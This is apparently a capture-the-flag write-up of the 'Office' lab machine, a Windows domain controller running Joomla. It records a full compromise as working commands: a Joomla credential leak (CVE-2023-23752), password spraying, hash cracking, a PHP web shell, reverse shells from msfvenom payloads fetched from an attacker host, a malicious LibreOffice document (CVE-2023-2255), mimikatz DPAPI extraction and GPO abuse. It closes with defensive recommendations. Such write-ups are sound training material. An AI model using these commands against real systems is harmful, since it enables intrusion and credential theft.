### Phase 1: Reconnaissance (Information Gathering)

The first step in any engagement is a thorough reconnaissance of the target system to understand its attack surface.

A full TCP port scan was initiated to identify all open services on the target IP address, providing a comprehensive map of potential entry points.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.230.226 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.230.226
```




```
This host appears to be a Windows Domain Controller (indicated by Kerberos, LDAP, and Active Directory services).
Ports 88 (Kerberos), 389 (LDAP), 636 (LDAPS), 3268 (LDAP GC), 3269 (LDAPS GC): These are core services for Microsoft Active Directory, confirming the server's role as a Domain Controller. The LDAP services show the domain as office.htb and domain controller as DC.office.htb.
Ports 139 (NetBIOS-SSN) and 445 (Microsoft-DS/SMB): These ports indicate Windows file sharing and authentication services are active, typical for a Windows server, especially a Domain Controller. SMB message signing is enabled and required, which is a good security practice.
Port 80 (HTTP) and 443 (HTTPS): An Apache httpd 2.4.56 server is running. The presence of "Joomla! - Open Source Content Management" and "robots.txt" entries for administrative paths (/joomla/administrator/, /administrator/) suggests a Joomla instance is hosted on this server, potentially a vulnerability point if not patched.
Port 53 (DNS): Simple DNS Plus is running, which is expected on a Domain Controller as it provides DNS resolution for the domain.
Port 5985 (HTTP - WinRM): Microsoft HTTPAPI httpd 2.0 indicates Windows Remote Management (WinRM) is likely enabled. This is a common service for remote administration of Windows servers.
In essence, this is a Windows Domain Controller running Active Directory, hosting a Joomla website, and accessible via standard Windows management protocols.
```

Let's add hosts:

```bash
echo "10.129.230.226 office.htb DC.office.htb" | sudo tee -a /etc/hosts
```

Let's check the website with some intersting endpoints that nmap has found:






We can see a basic web site about Tony Stark. I thought that forgot username is a good start if we knew email which we can try to brute force and after obtaining username we can do the same with a password.

### Phase 2: Initial Access (Web Exploitation + Creds Disclosure)

I tried to find out Joomla version so I changed robots.txt endpoint to README.txt and here's what I got:




We type in Google "Joomla 4.x CVE" and we can find in first links the same CVE: CVE-2023-23752.

```bash
curl -v http://office.htb/api/index.php/v1/config/application?public=true
```



We got creds:

root:H0lOgrams4reTakIng0Ver754!

### Phase 3: Credential Validation & Kerberos Enumeration

I failed trying to login with these creds on website, let's try to enumerate users and then do a Password Spray attack:

```bash
git clone https://github.com/ropnop/kerbrute
cd kerbrute
sudo make all
cd dist
./kerbrute_linux_amd64 userenum -t 100 -d office.htb --dc dc.office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```



User list:

```
administrator
Administrator
ewhite
etower
dwolfe
dmichael
dlanor
hhogan
DWOLFE
DLANOR
```

The command for Password Spraying attack:

```bash
./kerbrute_linux_amd64 passwordspray -t 100 -d office.htb --dc dc.office.htb users "H0lOgrams4reTakIng0Ver754!"
```



```
dwolfe@office.htb:H0lOgrams4reTakIng0Ver754!
```

### Phase 4: Internal Enumeration (SMB + PCAP Analysis)

Now that we know creds let's enum services such as smb:

```bash
nxc smb office.htb -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' --shares
```



The only unsual one is SOC Analysis share we will check it first:

```bash
impacket-smbclient office.htb/dwolfe:"H0lOgrams4reTakIng0Ver754!"@10.129.230.226
use SOC Analysis
get Latest-System-Dump-8fbc124d.pcap
exit
wireshark Latest-System-Dump-8fbc124d.pcap
```

We will add filters:

```
(tcp.port == 21 or tcp.port == 25 or tcp.port == 80 or tcp.port == 110 or tcp.port == 143 or udp.port == 161 or (ntlmssp) or (kerberos))
```





### Phase 5: Kerberos Pre-Auth Capture & AS-REP Roast

We found AS-REQ through KRB, user is tstark (after a little bit more time kerbute userenum showed me tstark user too) and timestamp hash. We can crack it. First we will need to make it a hash that can be cracked:

```
a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
(18 - etype, tstark -cnamestring, OFFICE.HTB - realm all this from the wireshark traffic)
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

```bash
hashcat -m 19900 hash /usr/share/wordlists/rockyou.txt
```



Now we have new creds:

tstark:playboy69

### Phase 6: Domain Enumeration with BloodHound

In order to find ways to privilege escalation and to understand the whole structure we will use bloodhound:

```bash
bloodhound-python -u tstark -p playboy69 -d office.htb -ns 10.129.230.226 -c all --zip
```
```bash
sudo neo4j start
```

### Phase 7: Authenticated Web Access + Web Shell Deployment

I tried to login on the website that dedicated to Tony as tstark, Tony Stark, TonyStark, Tony_Stark but I failed, finally administrator did. Now we're in:



It's a classic scenario. Now we will change template inject web shell using php simple code:

System > Templates > Site Templates >  Cassiopeia Details and Files > error.php

```
<?php system($_GET['cmd']); ?>
```



Now save it and then curl:

```bash
curl http://office.htb/templates/cassiopeia/error.php?cmd=whoami
```



### Phase 8: Reverse Shell via Joomla Web Shell

Now we will download nc.exe then host python server download it and get reverse shell back:

```bash
curl http://office.htb/templates/cassiopeia/error.php?cmd=powershell+iwr+10.10.14.61:8000/nc.exe+-O+nc.exe
curl http://office.htb/templates/cassiopeia/error.php?cmd=nc.exe+10.10.14.61+4444+-e+cmd.exe
```

```bash
python3 -m http.server 8000
nc -lvvp 4444
```

For whatever reasons I was able to upload nc but couldn't receive anything so let's use msfvenom and msfconsole:

Create the pauload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=4444 -f exe -o shell.exe
```

Setup listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.61
set LPORT 4444
set ExitOnSession false
exploit -j
```

Upload and execute:

```bash
curl "http://office.htb/templates/cassiopeia/error.php?cmd=certutil.exe+-urlcache+-f+http://10.10.14.61/shell.exe+C:\\Windows\\Temp\\shell.exe"
curl "http://office.htb/templates/cassiopeia/error.php?cmd=C:\\Windows\\Temp\\shell.exe"
```



### Phase 9: Privilege Escalation to tstark using RunasCs

We're in now and since we have valid creds as tstark we will download and upload RunasCs:

```bash
wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
unzip RunasCs.zip
```

Back in msfconsole

```bash
.\RunasCs.exe tstark playboy69 "C:\xampp\htdocs\joomla\templates\cassiopeia\nc.exe -e cmd.exe 10.10.14.61 7777" -d office.htb -l 8
```
```
C:\xampp\htdocs\joomla\templates\cassiopeia>.\RunasCs.exe tstark playboy69 "C:\xampp\htdocs\joomla\templates\cassiopeia\nc.exe -e cmd.exe 10.10.14.61 7777" -d office.htb -l 8
.\RunasCs.exe tstark playboy69 "C:\xampp\htdocs\joomla\templates\cassiopeia\nc.exe -e cmd.exe 10.10.14.61 7777" -d office.htb -l 8
[*] Warning: The function CreateProcessWithLogonW is not compatible with the requested logon type '8'. Reverting to the Interactive logon type '2'. To force a specific logon type, use the flag combination --remote-impersonation and --logon-type.
[*] Warning: The logon for user 'tstark' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
[-] RunasCsException: CreateProcessWithLogonW logon type 2 failed with error code: This version of %1 is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher
C:\xampp\htdocs\joomla\templates\cassiopeia>    
```
We got this error we have to upload nc64.exe (that's probably why I haven't received back rev shell)

```bash
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
curl http://office.htb/templates/cassiopeia/error.php?cmd=powershell+iwr+10.10.14.61:8000/nc64.exe+-O+nc64.exe
```

That still doesn't work so let's use msf again:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f exe -o tstark_shell.exe
```

In the same msf session

```bash
background
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.61
set LPORT 7777
set ExitOnSession false
exploit -j
```

Then in another tab:

```bash
curl http://office.htb/templates/cassiopeia/error.php?cmd=powershell+iwr+10.10.14.61:8000/tstark_shell.exe+-O+tstark_shell.exe
curl "http://office.htb/templates/cassiopeia/error.php?cmd=C:\\xampp\\htdocs\\joomla\\templates\\cassiopeia\\RunasCs.exe+tstark+playboy69+\"C:\\xampp\\htdocs\\joomla\\templates\\cassiopeia\\tstark_shell.exe\"+-d+office.htb"
```



### Phase 10: Port Forwarding with Chisel (Lateral Movement Prep)

Now we're in as Tony let's grab the user flag and then check for any useful information:



We need to forward the port and since we don't have ssh we will use chisel:

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_windows_amd64.gz
gzip -d chisel_1.10.1_windows_amd64.gz
gzip -d chisel_1.10.1_linux_amd64.gz
chmod +x chisel_1.10.1_linux_amd64
./chisel_1.10.1_linux_amd64 server --reverse --port 8001
```

In msf condole as tony:

```bash
upload chisel_1.10.1_windows_amd64
shell
.\chisel_1.10.1_windows_amd64 client 10.10.14.61:8001 R:8083:127.0.0.1:8083
```
```
http://127.0.0.1:8083/
```


### Phase 11: Code Execution via LibreOffice Exploit Chain

After trying uploading any file it saus:

```
❌ Accepted File Types : Doc, Docx, Docm, Odt!
```

I recently solved another machine on HTB that required odt file with macro that we dilevered as phishing email so let's again craft it using msfconfole and upload to target system:

```bash
use exploit/multi/misc/openoffice_document_macro
set payload windows/x64/meterpreter/reverse_tcp
set srvhost 10.10.14.61
set filename shell.odt
set lhost 10.10.14.61
set lport 3333
run
```

We can find applications folder on the system and tony has rights to write it so we will upload shell.odt

I wasn't able to upload it although I had rights to. I forgor to change session to web_account so background tony's session then use web_account's one to upload it. We will change reg using Tony's session because he's in registry editor group so macro wil be executed and we get a reverse shell:

```cmd tony
reg.exe add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" /v "Value" /t REG_DWORD /d 0 /f
```
```cmd web_account
powershell iwr http://10.10.14.61:8080/Xl4xkE -O shell.odt
```

For whatever resons it was sending the payload but none success:



So I found CVE-2023-2255 and used this repo https://github.com/elweth-sec/CVE-2023-2255 let's exploit it:

```bash
git clone https://github.com/elweth-sec/CVE-2023-2255
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.61 LPORT=5555 -f exe > rev_shell.exe
msfconsole 
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST tun0
set LPORT 5555
run
```

Then upload using Tony's session rev_shell exe to Public Users directory. Then cd to CVE's directory and make it execute our rev_shell.exe:

```bash
python3 CVE-2023-2255.py --cmd 'c:\users\public\rev_shell.exe' --output 'hacked.odt'
```

Then upload it again useing web_account session:

```bash
curl "http://10.10.14.61:8000/hacked.odt" -o C:\xampp\htdocs\internal\applications\casual.odt
```




We got a shell as ppotts!

### Phase 12: DPAPI Credential Extraction with Mimikatz

Now after enumerating machine I found that there're credentials stored but they are hidden within dpapi and we will use mimikatz to retrieve them.

```bash
cd ../../../Users/Public
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
```

Now we have to find credential blobs and masterkeys:




Now we will extract them:

```cmd
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\10811601-0fa9-43c2-97e5-9bef8471fc7d /rpc" "exit"
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc" "exit"
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\277f5e35-0e98-4eb5-b925-1dda05522e68 /rpc" "exit"
```

```keys
3f891c81971ccacb02123a9dde170eaae918026ccc0a305b221d3582de4add84c900ae79f950132e4a70b0ef49dea6907b4f319c5dd10f60cc31cb1e3bc33024
87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
1e8828534f4f081fa2bdd4e4fed08753cd0687cdb6ababb6916ab32a6eaa559484964fe4ce58a7c75334247957b368d1e7be02c3c80c2f854366ed7da348c4ac
```

Now we can decrypt credentials blobs:

```cmd
.\mimikatz.exe "dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166" "exit"
```


```
  UserName       : OFFICE\HHogan
  CredentialBlob : H4ppyFtW183#
```

New pair of creds:

OFFICE\HHogan:H4ppyFtW183#



### Phase 13: Domain Privilege Escalation via GPO Abuse

We can use evil-winrm:

```bash
    evil-winrm -i 10.129.230.226 -u hhogan -p 'H4ppyFtW183#'
```

I checked bloodhound and used shortest path to high value targets and got this path:



Hhogan is in the GPO Managers group that has Generic Write on Default Domain Policy which can compromise the whole domain. Using SharpGPOAbuse we can do literally anything to get a shell as Administrator but we will just add Hhogan to admin group reenter evil-winrm and get Administrator shell. Although I must say that here we're not limited to do only that we can do pretty much anything impresonating admin so add user to admin group not the only way.

```bash
wget https://github.com/byronkg/SharpGPOAbuse/releases/download/1.0/SharpGPOAbuse.exe
upload /home/perunchess/SharpGPOAbuse.exe
```

Then in evil-winrm:

```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "PWNED" --Author Office\Administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators hhogan /add" --GPOName "DEFAULT DOMAIN CONTROLLERS POLICY"
gpupdate /force
```



### Phase 14: Domain Compromise Confirmed

Then just reenter:


We got a root flag!

### What I Learnt

DPAPI Credential Extraction:
    -I learned how to identify and extract credential blobs protected by DPAPI using Mimikatz. This included locating masterkey files, extracting keys via RPC, and then decrypting stored credentials like RDP, Wi-Fi, or browser passwords.

Credential Blob Anatomy:
    -Understanding the structure of DPAPI blobs (SID-based protection, masterkey GUIDs, AES-encrypted blob data) helped me identify what each file does and how to map user SIDs to their protected data.

GPO Abuse using SharpGPOAbuse:
    -Learned how to abuse GenericWrite privileges on a GPO using SharpGPOAbuse to execute arbitrary commands across the domain. Specifically used a computer startup task to escalate a domain user to Domain Admin.

Chisel Port Forwarding:
    -Practiced setting up reverse SOCKS-like tunnels with chisel to reach restricted services on the internal network, enabling web access to internal portals during lateral movement.

### Reflection

-I underestimated the power of DPAPI; the masterkey + credential blob combo can leak powerful secrets without touching LSASS.
-Pivoting between users with complementary privileges was essential. Lateral movement required chaining write-access + registry + GPO.
-SharpGPOAbuse is extremely powerful; abusing GPO to trigger system-wide code execution feels stealthier than typical token or DCSync attacks.

### Redemption (Blue Team Perspective — How to Prevent This)

| Phase                    | Defensive Recommendations                                                                                                                                                                                                      |
| ------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **DPAPI Protection**     | - Use BitLocker or EFS so that DPAPI blobs are protected by OS-level encryption. <br> - Monitor for excessive access to `AppData\Roaming\Microsoft\Protect`. <br> - Rotate user passwords regularly — DPAPI is password-bound. |
| **Credential Storage**   | - Avoid storing any plaintext secrets under `AppData\Roaming\Microsoft\Credentials`. <br> - Use Credential Guard to block LSASS/dpapi token export.                                                                            |
| **GPO Abuse**            | - Regularly audit GPOs for over-permissive ACLs (`GenericWrite`, `WriteDACL`, `WriteOwner`). <br> - Use `GPOTool` or BloodHound to map out dangerous GPO privilege paths.                                                      |
| **Chisel / Port Fwd.**   | - Monitor for reverse tunnels and anomalous long-lived TCP sessions. <br> - Block unauthorized outbound connections from workstations (especially to uncommon ports like 8001, 8083).                                          |
| **Privilege Escalation** | - Restrict GPO editing to only trusted, minimal admin groups. <br> - Detect additions to the Domain Admins or local Administrators group via SIEM.                                                                             |
| **Post-Exploitation**    | - Watch for unsigned binaries like `SharpGPOAbuse.exe`, `mimikatz.exe`. <br> - Deploy AppLocker/WDAC to block lateral tooling execution.                                                                                       |
